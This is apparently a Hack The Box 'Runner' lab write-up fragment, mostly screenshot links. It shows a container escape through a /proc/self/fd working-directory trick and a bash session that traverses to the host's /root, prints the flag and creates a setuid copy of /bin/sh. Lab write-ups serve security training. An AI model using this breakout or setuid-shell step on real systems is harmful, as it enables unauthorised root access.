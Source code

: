 ![Pasted image 20240527190607.png](/assets/images/Season 5/Runner/Pasted image 20240527190607.png)

primary page:

![Pasted image 20240527190648.png](/assets/images/Season 5/Runner/Pasted image 20240527190648.png)

Available images:

![Pasted image 20240527190840.png](/assets/images/Season 5/Runner/Pasted image 20240527190840.png)

Create new container:
![Pasted image 20240527191043.png](/assets/images/Season 5/Runner/Pasted image 20240527191043.png)

![Pasted image 20240527191119.png](/assets/images/Season 5/Runner/Pasted image 20240527191119.png)

![Pasted image 20240527191219.png](/assets/images/Season 5/Runner/Pasted image 20240527191219.png)

It kept complaining about `/proc/self/fd/8` for about 300 millisecond and shut down right away.

It worked with `/proc/self/fd/7`, but after some time `8` also worked? I guess build step failed or something on previous:

![Pasted image 20240527193513.png](/assets/images/Season 5/Runner/Pasted image 20240527193513.png)

```bash
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
root@67ab15dc91e3:.# ls /root
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
root@67ab15dc91e3:.# ls ../../../../../../../../../root
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
docker_clean.sh  initial_state.txt  monitor.sh  root.txt
root@67ab15dc91e3:.# cd ../../../../../../../../../root
chdir: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
root@67ab15dc91e3:../../../../../../../../../root# ls
docker_clean.sh  initial_state.txt  monitor.sh  root.txt
root@67ab15dc91e3:../../../../../../../../../root# cat root.txt
3d236479467eb9441598807fe1965163
root@67ab15dc91e3:../../../../../../../../../root# cp /bin/sh ../tmp/rootsh && chmod 4777 ../tmp/rootsh 
```

---

Writeup referenced:
[https://blog.taipanbyte.ru/hackthebox/Runner-HTB-Writeup](https://blog.taipanbyte.ru/hackthebox/Runner-HTB-Writeup)


